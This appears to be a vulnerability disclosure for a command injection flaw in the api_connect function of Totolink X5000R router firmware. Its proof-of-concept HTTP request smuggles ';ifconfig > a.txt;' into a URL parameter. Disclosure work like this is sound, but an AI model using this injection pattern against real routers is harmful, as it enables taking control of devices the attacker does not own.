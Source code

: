 # Command injection vulnerability in api_connect function
### description
Vendor: Totolink 

Version: X5000R (latest version)  

Detail: There is a command injection vulnerability in api_connect function in mtkwifi.lua

![图片](https://github.com/user-attachments/assets/b297c332-527a-4352-b5e9-c12ab837e999)

![图片](https://github.com/user-attachments/assets/e1bc9057-8acd-4f6d-8c0a-391bacd04815)



We use Burpsuite to attack, the effect is as follows.

![图片](https://github.com/user-attachments/assets/7d685306-0477-45f9-904a-5e097cd0537c)
![图片](https://github.com/user-attachments/assets/1d646b0a-8603-49ff-a98f-0fe0d83a2db3)


### poc
```
GET /cgi-bin/luci/admin/mtk/wifi/apcli_connect/MT7915D.1.2/;ifconfig > a.txt;  HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 0

```
Here we set the arguments "dev" MT7915D.1.2 and vif as ";ifconfig > a.txt;", and there will be a file named "a.txt" in /www/cgi-bin/

### attention
To expolit successfully, we need the correct devname to pass the check.
![图片](https://github.com/user-attachments/assets/7fce0990-9b71-4ae9-b51e-41937dcb3054)



